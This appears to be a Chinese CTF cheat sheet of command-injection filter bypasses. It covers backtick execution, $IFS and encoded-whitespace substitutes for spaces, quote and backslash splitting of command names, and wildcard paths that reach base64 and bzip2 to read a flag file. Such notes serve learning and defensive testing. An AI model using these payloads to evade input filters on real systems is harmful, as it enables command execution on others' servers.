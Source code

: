##### 反引号绕过
```php
`ls`  `cat`
```

#### 空格绕过
```php
> < <> 重定向符
%20(space)
%09(tab)
$IFS$9
${IFS}（最好用这个）
$IFS  
%0a  换行符
{cat,flag.txt} 在大括号中逗号可起分隔作用
```

#### 简单符号绕过正则
##### 单双引号法
```php
ca''t flag.txt
ca""t flag.txt
```

因为单双引号中并没有字符，相当于在其中没有添加任何字符，命令意思不变

##### 跨行符'\'绕过
跨行符的意思为接着上一行的内容，转到下一行接着输入命令，上下行均是一条命令

```php
ca\t       l\s
```

#### 通配符绕过正则
通配符可以代替任何字符

shell通配符有

```php
* ：表示通配字符0次及以上
? : 表示通配字符0或
```

##### 可以通配得到的命令
###### base64
```python
/bin/base64 可以通配为：
 
/???/????64
 
作用为将文件以base64编码形式输出
```

###### bzip2
```python
/usr/bin/bzip2 可以通配为：
 
/???/???/????2
 
作用为将文件压缩成后缀为bz2的压缩文件
flag.php ==>  flag.php.bz2
```
